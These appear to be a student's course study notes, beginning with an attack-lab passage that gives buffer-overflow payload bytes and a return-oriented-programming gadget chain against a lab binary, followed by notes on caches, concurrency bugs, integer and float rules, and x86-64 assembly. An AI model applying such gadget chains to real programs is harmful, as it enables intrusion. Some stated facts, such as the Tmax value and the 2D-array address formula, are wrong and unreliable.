// rsp - 0x38
88 64 61 55 00 00 00 00

// touch 3
6e 19 40 00 00 00 00 00

// cookie
37 38 66 31 61 64 35 66
```
- Phase 4
    - Cannot write code directly into stack or the buffer due to other functions using stack space
    - Must use provided gadgets (library functions written in code space)
    - See spec pdf for list of instructions and corresponding bytes
    - Instructions
        - Find gadgets that will pop (read) a value off the stack and store into a register, then move from that register into desired register (rdi)
        - Found: popq %rax (58 90 c3) and movq %rax, %rdi (48 89 c7 c3)
        - popq pops the "top" of stack which is the line directly above where the function is called, so the order must be:
            - 0x38 bit buffer
            - gadget 1: popq %rax
            - cookie data
            - gadget 2: movq %rax, %rdi
            - address of touch2
```
0000000000401a10 <getval_447>:
  401a10:	b8 **58 90 c3** 6d       	mov    $0x6dc39058,%eax
  401a15:	c3 

0000000000401a2b <addval_193>:
  401a2b:	8d 87 **48 89 c7** 90    	lea    -0x6f3876b8(%rdi),%eax
  401a31:	c3          

alternatives:

0000000000401a24 <addval_420>:
  401a24:	8d 87 **58 90 90 c3**    	lea    -0x3c6f6fa8(%rdi),%eax
  401a2a:	c3  

0000000000401a02 <addval_493>:
  401a02:	8d 87 **48 89 c7** c3    	lea    -0x3c3876b8(%rdi),%eax
  401a08:	c3                   	retq  

gadget 1: 401a11 or 401a26
gadget 2: 401a2d or 401a04

00 00 00 00 00 00 00 00	// buffer
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
11 1a 40 00 00 00 00 00	// gadget 1: popq %rax
5f ad f1 78 00 00 00 00	// value of cookie
04 1a 40 00 00 00 00 00	// gadget 2: movq %rax, %rdi
9a 18 40 00 00 00 00 00	// touch2
```

### Previous Final Content
- Definitions
    - **Dynamic linking**: A mechanism in software development where the linking of libraries or modules occurs at runtime rather than at compile time; allows programs to use external libraries without incorporating them into the executable file
    - Tiling: The technique of dividing a larger problem into smaller, overlapping subproblems or tiles; often used in parallel computing or optimization to improve efficiency
    - **Virtual memory**: Memory management technique that provides an idealized abstraction of the storage resources that are actually available on a given machine, which creates the illusion to users of a very large (main) memory
    - **Cache**: A hardware or software component that stores data in order to serve future requests more quickly; provides high-speed data access by storing frequently accessed computer programs, applications, and data; a smaller, faster storage device used as a staging area for a subset of the data in a larger, slower storage device
    - **Cache memories**: Small, fast SRAM-based memories on the CPU, managed automatically in hardware
    - **Blocks**: Information unit for transfer between cache, memory
    - **Preprocessor**: A program or set of statements that processes the source code before it is passed to the compiler; performs tasks such as macro substitution, file inclusion, and conditional compilation
    - **Strength reduction**: An optimization technique used in compilers to replace expensive operations with cheaper ones; for example, replacing multiplication with addition or loop unrolling to reduce the overhead of loop control
    - **Register file**: Collection of registers in a computer's central processing unit (CPU) where data is temporarily stored during program execution; provides fast access to operands for arithmetic and logic operations
    - **Trap**: A mechanism for capturing an exceptional condition, such as an error or an interrupt, and transferring control to a specific routine (trap handler) for handling the condition
    - **Abort**: Terminate or stop a process or program prematurely; often used in the context of error handling or when a critical condition is detected; machine check exceptions and double fault exceptions
    - **Fault**: An unintended, exceptional condition or error that occurs during program execution; may be detected by the system and can lead to exceptions or error-handling mechanisms (Ex: segmentation fault which occurs when attempting to access restricted or invalid memory, arithmetic fault caused by an attempt to perform an illegal arithmetic operation, such as dividing by zero)
    - **Stack**: A data structure that follows the Last In, First Out (LIFO) principle; used for storing and managing function call information, local variables, and control flow in a program
    - **ISA (Instruction Set Architecture)**: The set of instructions that a computer's central processing unit (CPU) can execute; defines the operations and data manipulation instructions that can be performed by a processor
    - **Complex instruction-set computers (CISC)**: Instruction set supporting a large number of different instructions
    - **Reduced instruction-set computers (RISC)**: Uses simpler set of instructions/operations, allowing for a simpler associated hardware
    - **TLB (Translation Lookaside Buffer)**: A memory cache that stores the recent translations of virtual memory to physical memory addresses; used to speed up the address translation process in a virtual memory system
    - **Heap**: A region of a computer's memory used for dynamic memory allocation; managed by the programmer and is used for storing data structures like linked lists, trees, and objects
    - **Text segment**: Section of a program's binary that contains executable code; typically read-only and is mapped into the virtual memory space of a process
    - **Data segment**: Aection of a program's binary that contains initialized global and static variables; used for storing data that persists throughout the program's execution
    - **Pseudoinstruction**: A symbolic representation in assembly language that does not correspond directly to a machine instruction but is translated into one or more actual instructions during the assembly process; used for convenience or readability in assembly programming
    - **Single-instruction,single-data (SISD)**: Each instruction operates on only a single stream of data
    - **Single instruction, multiple data (SIMD)**: Applying a single instruction simultaneously to multiple streams of data (e.g. through parallelism/pipelining)
    - **CPU-memory gap**: The gap between CPU cycle times [actual & effective cycle times] and memory seek/access times has been widening over time
    - **Principle of Locality**: Programs tend to use data and instructions with addresses near or equal to those they have used recently
        - **Temporal locality**: Recently referenced items are more likely to be referenced again in the near future
            - Ex: referencing the same variables repeatedly, cycling through the same instructions in a loop
        - **Spatial locality**: Items with addresses near each other tend to be referenced close together in time
            - Ex: adjacent items in an error, reading of instructions in sequence
- Poor performance
    - **Load balancing**: Occurs when the workload is unevenly distributed among parallel threads or processes, leading to inefficient resource utilization
        - We should use a dynamic or guided schedule clause
        - Use dynamic workload distribution algorithms or task partitioning to evenly distribute the workload among threads
        ```
        #include <stdio.h>

        int parallel_sum(int arr[], int size) {
            int result = 0;
            // Uneven workload assignment
            for (int i = 0; i < size; i++) {
                result += arr[i];
            }
            return result;
        }

        int main() {
            int arr[] = {1, 2, 3, 4, 5, 6, 7, 8, 9, 10};
            int result = parallel_sum(arr, 10);
            printf("Result: %d\n", result);
            return 0;
        }
        ```
    - **False sharing**: Happens when multiple threads access different variables that happen to reside on the same cache line, leading to unnecessary cache invalidation and performance degradation (correct)
        - We need to use private memory to avoid negative effects from cache coherence
        - Align shared variables to different cache lines or use padding to prevent them from residing in the same cache line
        ```
        #include <iostream>
        #include <thread>

        int sharedArray[2];

        void threadFunction(int index) {
            // False sharing as threads write to adjacent elements
            sharedArray[index] = index;
        }

        int main() {
            std::thread t1(threadFunction, 0);
            std::thread t2(threadFunction, 1);
            t1.join();
            t2.join();

            return 0;
        }
        ```
    - **Race conditions**: Occur when multiple threads access shared data concurrently without proper synchronization, leading to unpredictable results
        - Writes from different loop iterations collide in memory, causing inconsistent results
        - Use synchronization mechanisms like locks (mutexes) or atomic operations to ensure mutually exclusive access to shared data
        ```
        #include <stdio.h>
        #include <pthread.h>

        int counter = 0;

        void* increment_counter(void* arg) {
            for (int i = 0; i < 1000000; ++i) {
                counter++;
            }
            return NULL;
        }

        int main() {
            pthread_t thread1, thread2;

            pthread_create(&thread1, NULL, increment_counter, NULL);
            pthread_create(&thread2, NULL, increment_counter, NULL);

            pthread_join(thread1, NULL);
            pthread_join(thread2, NULL);

            printf("Counter: %d\n", counter);
            return 0;
        }
        ```
    - **Operatng system interference**: Occurs when the operating system interrupts the execution of a critical section, affecting the correctness of the program
        - There is too much operating system overhead that occupies processor cycles
        - Minimize non-deterministic factors during critical sections or use synchronization mechanisms to protect shared resources
        ```
        #include <stdio.h>
        #include <stdlib.h>
        #include <pthread.h>

        int sharedVariable = 0;

        void* threadFunction(void* arg) {
            for (int i = 0; i < 1000000; ++i) {
                sharedVariable++;
            }
            return NULL;
        }

        int main() {
            pthread_t thread1, thread2;

            pthread_create(&thread1, NULL, threadFunction, NULL);
            pthread_create(&thread2, NULL, threadFunction, NULL);

            // Operating system interference may occur here

            pthread_join(thread1, NULL);
            pthread_join(thread2, NULL);

            printf("Shared Variable: %d\n", sharedVariable);
            return 0;
        }
        ```

### CS 33 Study Guide
- Bits and Bytes
    - Signed: right shift is arithmetic
    - Unsigned: right shift is logical
    - Not always precise computations, especially in the case of right shifts for signed numbers
- Integers
    - Unsigned integers are represented in ___ complement form
    - Smallest unsigned number we can represent (Umin): 00000000 = 0
    - Largest unsigned number we can represent (Umax): 11111111 = 2^w - 1
    - Smallest signed number we can represent (Tmin): 10000000 = -2^(w-1)
    - Largest signed number we can represent (Tmax): 01111111 = 2^(w-1)
    - Minus one: 11111111
    - |Tmin| = Tmax + 1
    - Umax = 2 * Tmax + 1 
    - ~x + 1 == -x
    - TMAX + 1 == TMIN
    - TMAX + TMIN == -1
    - Overflow:
        - Unsigned: Tmax + 1 = 0
        - Signed: Tmax + 1 = Tmin
    - Underflow:
        - Unsigned: N/A
        - Signed: Tmin - 1 = Tmax
    - Casting
        - Explicit casting between signed and unsigned
        ```
        int tx, ty;
        unsigned ux, uy;
        tx = (int) ux;
        uy = (unsigned int) ty;
        ```
        - Implicit casting also occurs via assignments and procedure
        ```
        tx = ux;
        uy = ty;
        ```
        - If there is a mix of unsigned and signed in single expression, signed values are implicitly cast to unsigned
- Floating Point
    - `x == (int)(float)x`: False, floating-point conversion can lose precision.
    - `x == (int)(double)x`: True, 64-bit double has enough fraction bits to hold an int with enough precision
    - `f == (float)(double)f`: True, no precision lost converting to a larger data type
    - `d == (double)(float)d`: False, implicit conversion back to double, but some precision is lost in initial conversion
    - `f = -(-f)`: True, negation only affects the sign bit
    - `2/3 == 2/3.0`: False, first is integer division, truncates to 0; second is floating point division
    - `1.0/2 == 1/2.0`: True
    - `d < 0.0 => ((d*2) < 0.0)`: True, no overflow in floating point; if it's too small, returns -infinity
    - `d > f => -f > -d`: True, no possibility of overflow in negation
    - `d * d >= 0.0`: True, no overflow, d * d might be infinity, but infinity > 0.0
    - `(d + f) - d == f`: False, d + f could become infinite
    - Understand the complexities of rounding, casting, and arithmetic with floating point (floating point puzzles)


### Other CS 33 Notes
- Assembly
    - Commands
        - "q" (quad) at the end of a command indicates that it handles 64 bits
        - "l" (long - 32 bit)
        - "w" (word - 16-bit)
        - Subtraction: sub
        - Multiplication (signed): imulq
        - Multiplication (unsigned): mulq
        - Left shift: salq/shlq (shift amount, src = dst)
        - Arithmetic right shift: sarq (shift amount, src = dst)
        - Logical right shift: shrq (shift amount, src = dst)
        - Increment: incq
        - Decrement: decq
        - Negate: negq
        - movq analogous to dereferencing and assigning a value at a pointer’s address in C (i.e. *dest = val -> movq %addr1, %addr2)
            - If SRC is an immediate, assigns value of that immediate to DEST
            - If SRC is a memory address [i.e. referred to by operator()], assigns value at that memory address to DEST
            - movzbl - move from byte (hence the b) to 32-bit (hence the l), Xlling the remaining bytes with zeros (hence the z)
            - movslq - move from long (32-bit) to quad (64-bit), Xlling remaining bytes by sign-extending (hence the s)
            - When moving 32-bit to 64-bit register, automatically zeroes the extra bits
        - leaq (load effective address):
            - Is a means of computing addresses without a memory reference/performing pointer arithmetic without actually dereferencing the pointer [i.e. with only a register address] (analogous to p = &x[i])
                - Can use general memory addressing with D(Rb, Ri, S) to perform pointer arithmetic (i.e. SRC = (%rax, %rcx, 2) = %rax + 2 * %rcx)
                    - Using the same command with movq copies the value at the returned memory address to DEST; leaq simply copies the returned memory address to DEST without dereferencing
            - Computing arithmetic expressions x + k*y (k = 1, 2, 4, or 8)
                - Is an alternative to addq that does not overwrite the destination
                - E.g. leaq (%rax, %rcx, 3), %rdx places a value of %rax + 3 * %rcx in %rdx (whether %rax, %rcx held integers or memory addresses)
            - Omitting SHIFT_AMT for one of the shift commands will shift by 1
    - Registers
        - Prefix 'r' denotes 64-bit registers, prefix 'e' denotes 32-bit virtual register
        - Only the first 6 function arguments are stored in registers and the rest on the stack
    - Looping
        - C do-while(condition)
            - Body statements [loop body]
            - Conditional jump to top [loop condition]
        - C while
            - Jump-to-middle
                - Unconditional jump to bottom
                - Body statements [loop body]
                - Conditional jump to body statements [loop condition]
                - Less optimized due to extra jumped compared to guarded-do
            - Guarded-do
                - Conditional jump skipping loop [loop condition, initial check]
                - Body statements [loop body]
                - Conditional jump to body statements [loop condition]
                - Effectively transforms while loop into a do-while loop with an extra conditional jump before the loop itself
    - Switch statements
        - Implemented using either a straightforward if-else conditional branching approach or jump table
        - Jump table: array where each entry i contains the address of the instruction to be jumped to if the switch index == i
- x86-64 stack
    - Stack always grows towards lower memory addresses
    - pushq SRC writes SRC to %rsp, decrements %rsp by 8 bytes (allocates space)
    - popq DEST writes value at %rsp to DEST, increments %rsp by 8 (deallocates)
- Data
    - An array of length L containing variables of type T (T A[L]) will take a contiguously allocated region of L * sizeof(T) bytes in memory
    - A multidimensional array can simply be implemented as an array of arrays
        - Ex: A 2D array with R rows and C columns, holding variables of type T (T A[R][C]) will take a region of R * C * sizeof(T) bytes in memory
        - Individual subarrays can be accessed via memory addressing &A[i][j] = &A[0][0] + i * C * sizeof(T) * j * sizeof(T)
    - Struct
        - If a primitive (integral type) requires K bytes of memory to store, it be stored at a memory address that is a multiple of K
    - Union
        - Storage is allocated according to largest element

